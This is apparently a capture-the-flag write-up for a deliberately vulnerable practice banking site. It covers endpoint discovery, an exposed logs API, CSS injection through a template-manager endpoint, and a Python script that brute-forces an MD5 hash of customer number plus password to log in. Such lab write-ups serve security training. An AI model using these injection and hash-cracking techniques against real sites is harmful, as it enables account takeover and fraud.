

# VulnBanking

http://www.vulnbanking.co.uk - 4 flags to find


OK let's check subdomains first

```
└─$ assetfinder -subs-only vulnbanking.co.uk
vulnbanking.co.uk
hostmaster.vulnbanking.co.uk
```

OK so just the one, let's check that out later. For now just some content discovery

So doing a content fuzz on http://www.vulnbanking.co.uk/FUZZ gives the following

- /css/
- /js/
- /logout/

So not much. Just checking out the resources and links on the page however leads another couple of potential paths to check out.

First off there is inline javascript included 

```javascript
$('input.auth').click( function(){
    $.post('/api/login',{
        customer_number :   $('input[name="customer_number"]').val(),
        password        :   $('input[name="password"]').val()
    },function(resp){
        alert('Login Successful');
        window.location = '/session/' + resp.token;
    }).fail(function(){
        alert('Customer Number / Password combination invalid');
    })
});
```

And the login help link. So now I have a few extra things to check out

- /api/login - perhaps additional api endpoints to discover?
- /session/token - where token is some token received from a successful login
- /template-manager - the main style.css is loaded from this location. 
- /login-help - link on the login page

The template manager has another login form associated with it and its own app.js file

```javascript
templateManager = function (t) {
  for (ApiFire = function (t, e) {
    xhttp = new XMLHttpRequest,
    xhttp.open('POST', t, !0),
    xhttp.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'),
    xhttp.send('value=' + e)
  }, ApiCall = function (t) {
    console.log(t),
    url = '/template-manager/api/set-' + t,
    v = document.getElementById('val').value,
    ApiFire(url, v)
  }, i = 0; i < t.length; i++) try {
    document.getElementById(t[i]).addEventListener('click', function (t) {
      ApiCall(t.srcElement.id.replace('btn-', ''))
    })
  } catch (t) {
  }
}(['btn-background-color',
'btn-font-type',
'btn-font-color',
'btn-font-size']);
```

OK so template manager has more API endpoints. Which I think are POST requests to the following endpoints

- /template-manager/api/set-background-color
- /template-manager/api/set-font-type
- /template-manager/api/set-font-color
- /template-manager/api/set-font-size

Lets try these eg.

```
POST /template-manager/api/set-background-color HTTP/1.1
Host: www.vulnbanking.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ctfchallenge=xxx
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

value=red
```

With a response

```
HTTP/1.1 401 Unauthorized
server: nginx/1.21.1
date: Tue, 12 Jul 2022 16:44:09 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnbanking.co.uk
connection: close
Content-Length: 27

["User must be authorised"]
```

We get the same response for all apart from set-font-color which gives the following response

```
HTTP/1.1 201 Created
server: nginx/1.21.1
date: Tue, 12 Jul 2022 16:46:24 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnbanking.co.uk
connection: close
Content-Length: 79

{"message":"Value Set","flag":"[^FLAG^xxx^FLAG^]"}
```

There's flag no.1, disclaimer I did find the next bit first :D. Always read and understand the javascript people! :)

The login help has another form associated with it


So starting at the top of the last set of content I found and doing a fuzz on http://www.vulnbanking.co.uk/api/FUZZ, I get one additional result back

- logs

Which gives me a json array of logs

```json
[{"date":"Tue, 12 Jul 2022 14:43:24 +0000","endpoint":"\/api\/login","auth_hash":"5e6f59f4f4150be8e61eaa20bec51a75","result":"success","flag":"[^FLAG^xxx^FLAG^]"},...,...}]
```

Flag no.2 found

OK so what next? I suspect I need to find a valid customer number and password, which leads me to the login-help page.

```
If you're having problems getting into your account you can enter your details below to reveal your customer number and password
```

Lets have a look at the form

```html
<form method="post">
    <div class="panel-body">
        <p>If you're having problems getting into your account you can enter your details below to reveal your customer number and password</p>
        <div><label>Account Number:</label></div>
        <div style="margin-top: 7px"><input class="form-control" name="account_number" maxlength="8"></div>
        <div style="margin-top: 7px"><label>Sort Code:</label></div>
        <div><input class="form-control" type="password" name="sort_code" maxlength="6"></div>
        <div style="margin-top:7px">
            <input type="submit" class="btn btn-success pull-right" value="Submit">
        </div>
    </div>
</form>
```

So account number is 8 characters and sort code is 6 characters. Which tallies up to the same format in the UK. They're also digits so maybe I can try brute forcing this, that's ALOT of combinations but it's probably worth a try to begin with, with the hope that if there is a match it'll be a quick one. So I gave that a few minutes and called that a day as it was clearly going to take a VERY long time to brute force all those combinations...

Lets' change direction, ok so going back to the template manager. One interesting thing I didn't notice before is that the call to set-font-color does actually update the style.css that's included in the page, eg. setting it to yellow pulls back the following css

```css
body {
    background-color:#FFFFFF;
    font-family: "Helvetica Neue",Helvetica,Arial,sans-serif;;
    font-size:14px;
    color: #yellow

;
}
```

Errrr CSS injection? Eg.

```
POST /template-manager/api/set-font-color HTTP/1.1
Host: www.vulnbanking.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ctfchallenge=xxx
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

value=yellow; background-color: #00FF00
```

Gives



Yikes! Ooookkkk fancy trick but can this possibly give me anything to work with? Quick look on portswigger gives me this about CSS injection (not done this before)

```
Being able to inject arbitrary CSS into the victim's browser may enable various attacks, including:

- Executing arbitrary JavaScript using IE's expression() function.
- Using CSS selectors to read parts of the HTML source, which may include sensitive data such as anti-CSRF tokens.
- Capturing any sensitive data within the URL query string by making a further style sheet import to a URL on the attacker's domain, and monitoring the incoming Referer header.
```

So I think I can definately tick off the first two, and the last one I've not come across any URL's with any query strings. So a fun little experiment but I don't believe this will be useful, I'm going to park this for now. It seems unlikely to be unintentional that I can do this.

Let's study the one success login from the logs earlier, specifically this field

```
"auth_hash":"5e6f59f4f4150be8e61eaa20bec51a75"
```

What's this about, it feels non-standard for a login response. Crackstation brings back nothing, could it be the customer number or account number? Can I brute force it with hashcat for example?

So I tried this first

```
hashcat -a 3 -m 0 ./vulnbankinghash.txt --increment ?h?h?h?h?h?h?h?h?h?h
```

So this is a bruteforce with an MD5 hash incrementing the mask ```?h = 0123456789abcdef``` from 1-10 characters. And it gave me nothing.

Let's go back and study the response from a failed login, eg. from this request

```
POST /api/login HTTP/1.1
Host: www.vulnbanking.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 37
Origin: http://www.vulnbanking.co.uk
Connection: close
Referer: http://www.vulnbanking.co.uk/
Cookie: ctfchallenge=xxx

customer_number=1207202201&password=a
```

And the JSON response

```
{"auth_hash":"7cf2e3b27beadc66b9ba7b82a210e969","success":false}
```

If I change either the customer number or the password the hash changes for example

```
POST /api/login HTTP/1.1
Host: www.vulnbanking.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 37
Origin: http://www.vulnbanking.co.uk
Connection: close
Referer: http://www.vulnbanking.co.uk/
Cookie: ctfchallenge=xxx

customer_number=1207202201&password=b
```

I get

```
{"auth_hash":"d8f6850d428064ee86d3e42cbd584f49","success":false}
```

Change back to ```customer_number=1207202201&password=a``` and I get the same hash back as before ```7cf2e3b27beadc66b9ba7b82a210e969```. So the hash MUST be formed from some combination of the customer number + the password! Lets experiment and see if I can recreate this hash value

```python
└─$ python3             
Python 3.9.10 (main, Jan 16 2022, 17:12:18) 
[GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import hashlib
>>> combined = '1207202201a'
>>> m = hashlib.md5()
>>> m.update(combined.encode('UTF-8'))
>>> print(m.hexdigest())
7cf2e3b27beadc66b9ba7b82a210e969
```

YES! Ok so point proved, so the hash we have is likely to be a 10 digit number appended with some password. Also we know the 10 digits is made up of a date for the first 8 digits followed by 2 digits which I assume is a sequence number for the day. Lets see if I can script something combined with the password wordlist we have to find a match to the success hash.

Having no clue what the year could be in the format I shall start from the date of the Linux Epoch 1st January 1970 and work up from there. Here's the code

```python
import hashlib
from datetime import date, timedelta

hash = '5e6f59f4f4150be8e61eaa20bec51a75'
pwd_wordlist = '/usr/share/wordlists/ctfchallenge/passwords-large.txt'

def generateDateStrings():
    startdate = date(1970, 1, 1)
    dates = [startdate]
    for i in range(365*50):
        startdate = startdate + timedelta(days=1)
        dates.append(startdate)
    return [s.strftime('%d%m%Y') for s in dates]

def generateHashCombo(custno, password):
    combined = custno + password
    m = hashlib.md5()
    m.update(combined.encode('UTF-8'))
    return m.hexdigest()

def bruteForceHash():
    datestrings = generateDateStrings()
    digits = [str(s).zfill(2) for s in range(100)]
    passwords = [password.strip() for password in open(pwd_wordlist, 'r')]
    for datestring in datestrings:
        for digit in digits:
            for password in passwords:
                password =  password.strip()
                hashcombo = generateHashCombo(datestring + digit, password)
                if hashcombo == hash:
                    print(f'Found cust number {datestring+digit} and password {password} for hash {hash}')
                    return

bruteForceHash()
```

So it takes a little while but eventually I get this printed to the console

```
Found cust number 2901197737 and password pepper for hash 5e6f59f4f4150be8e61eaa20bec51a75
```

Which gets me in and gives me flag no.3


The page includes the following inline javascript

```javascript
$('.support_button').click( function(){
    $('#supportModal').modal('show');
    return false;
});
$('.transfer_button').click( function(){
    $('#transferModal').modal('show');
    return false;
});
$('.transfer-btn').click( function(){
    $('form#transfer_frm input[name="transfer_action"]').val( $(this).attr('data-action') );
    $('form#transfer_frm input[name="transfer_id"]').val( $(this).attr('data-id') );
    $('form#transfer_frm input[name="transfer_hash"]').val( $(this).attr('data-hash') );
    $('form#transfer_frm').submit();
});
```

Clicking on the support button pops up this modal


And the transfer modal


Which first goes into some form of acceptance and then registered as an outgoing transfer after a while


This is what that transfer request looks like

```
POST / HTTP/1.1
Host: www.vulnbanking.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://www.vulnbanking.co.uk
Connection: close
Referer: http://www.vulnbanking.co.uk/
Cookie: ctfchallenge=xxx; token=xxx
Upgrade-Insecure-Requests: 1

target_account=2&amount=10.00
```